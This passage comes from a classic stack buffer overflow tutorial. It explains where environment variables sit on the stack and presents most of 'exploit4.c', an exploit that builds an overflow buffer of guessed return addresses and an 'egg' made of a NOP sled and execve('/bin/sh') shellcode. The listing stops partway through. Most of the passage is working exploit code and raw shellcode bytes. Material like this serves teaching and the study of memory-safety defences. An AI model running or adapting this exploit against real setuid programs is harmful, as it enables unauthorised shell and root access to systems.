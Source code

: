    The environment variables are stored in the top of the stack when the
program is started, any modification by setenv() are then allocated
elsewhere.  The stack at the beginning then looks like this:


      <strings><argv pointers>NULL<envp pointers>NULL<argc><argv><envp>

   Our new program will take an extra variable, the size of the variable
containing the shellcode and NOPs. Our new exploit now looks like this:

exploit4.c
------------------------------------------------------------------------------
#include <stdlib.h>

#define DEFAULT_OFFSET                    0
#define DEFAULT_BUFFER_SIZE             512
#define DEFAULT_EGG_SIZE               2048
#define NOP                            0x90

char shellcode[] =
  "\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b"
  "\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd"
  "\x80\xe8\xdc\xff\xff\xff/bin/sh";

unsigned long get_esp(void) {
   __asm__("movl %esp,%eax");
}

void main(int argc, char *argv[]) {
  char *buff, *ptr, *egg;
  long *addr_ptr, addr;
  int offset=DEFAULT_OFFSET, bsize=DEFAULT_BUFFER_SIZE;
  int i, eggsize=DEFAULT_EGG_SIZE;

  if (argc > 1) bsize   = atoi(argv[1]);
  if (argc > 2) offset  = atoi(argv[2]);
  if (argc > 3) eggsize = atoi(argv[3]);


  if (!(buff = malloc(bsize))) {
    printf("Can't allocate memory.\n");
    exit(0);
  }
  if (!(egg = malloc(eggsize))) {
    printf("Can't allocate memory.\n");
    exit(0);
  }

  addr = get_esp() - offset;
  printf("Using address: 0x%x\n", addr);

  ptr = buff;
  addr_ptr = (long *) ptr;
  for (i = 0; i < bsize; i+=4)
    *(addr_ptr++) = addr;

  ptr = egg;
  for (i = 0; i < eggsize - strlen(shellcode) - 1; i++)
    *(ptr++) = NOP;

